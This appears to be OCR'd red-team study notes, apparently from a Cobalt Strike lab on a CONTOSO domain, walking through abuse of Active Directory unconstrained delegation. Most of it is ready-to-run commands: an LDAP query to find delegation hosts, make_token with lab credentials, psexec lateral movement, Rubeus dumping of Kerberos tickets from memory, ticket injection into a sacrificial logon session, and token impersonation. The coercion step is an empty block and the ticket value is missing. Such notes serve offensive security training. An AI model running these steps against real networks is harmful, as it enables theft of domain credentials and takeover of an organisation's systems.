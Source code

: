 
Search for computers configured for Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369 (userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

Within SYSTEM level beacon on Unconstrained Delegation host, monitor for incoming TGTs on host
```powershell
make_token CONTOSO\rsteel Passw0rd!
jump psexec64 lon-ws-1 smb
```

> Few options here: 

1.  Dump tickets from memory (hopefully a DA is here)

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /nowrap
```

2. Perform coercion to make a high level machine (DC) connect

```powershell

```


Stop Rubeus
```powershell
jobs
jobkill 0
```

Inject TGT into sacrificial logon session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist

rev2self       <--- Drop impersonation
kill [PID]
```


